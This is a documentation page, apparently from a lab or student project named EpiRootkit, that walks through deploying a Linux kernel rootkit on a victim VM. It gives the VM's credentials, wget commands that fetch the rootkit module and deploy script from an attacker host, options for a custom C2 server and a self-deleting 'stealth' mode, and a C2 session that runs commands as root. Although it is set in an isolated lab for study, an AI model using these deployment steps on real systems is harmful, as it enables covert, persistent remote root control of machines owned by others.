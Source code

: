 ```yaml
---
title: "Victim VM Setup"
description: "Configure the victim VM and deploy the EpiRootkit"
icon: "shield"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 204
---
```




## Prerequisites

1. **Host setup**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM disk**: `victim.qcow2` in `/var/lib/libvirt/images/`
3. **VM launched**: `sudo ./scripts/run_vms.sh victim`


## VM Access

- **IP**: 192.168.200.10 (static)
- **Credentials**: `victim` / `jules`
- **Target**: Ubuntu 20.04 LTS (kernel 5.4.0)

## Deploy Rootkit

### 1. Get Payload
Receive rootkit files from attacker VM:

```bash
# Option A: SCP transfer (from attacker VM)
# First: sudo apt install -y openssh-server (inside victim VM)
scp epirootkit.ko deploy_rootkit.sh victim@192.168.200.10:~/

# Option B: HTTP download
wget http://192.168.200.11:8080/epirootkit.ko
wget http://192.168.200.11:8080/deploy_rootkit.sh

# Option C: Web UI upload (In development)
# Use attacker's web interface file transfer 
```

### 2. Deploy
```bash
# Default deployment (connects to 192.168.200.11:4444)
sudo ./deploy_rootkit.sh

# Custom C2 server
sudo ./deploy_rootkit.sh address=IP/domain port=PORT

# Stealth deployment (self-destructs)
sudo ./deploy_rootkit.sh --self-delete
```

### 3. Verify Connection
Switch to attacker VM C2 server:
```bash
c2-server$ ls
# • Client-1 - UNAUTHENTICATED - Last seen: Just now

c2-server$ auth Client-1 password
c2-server$ exec Client-1 whoami
# Exit code: 0, Output: root
```

## Management

```bash
# Check status
sudo ./deploy_rootkit.sh status

# Remove rootkit
sudo ./deploy_rootkit.sh uninstall
```

## Next Steps

1. **Control**: Use [C2 Server](../../03-attacking-program/overview.md) or [Web UI](../../04-web-ui/overview.md)
2. **Features**: Explore [Rootkit Features](../../05-epirootkit/features/)
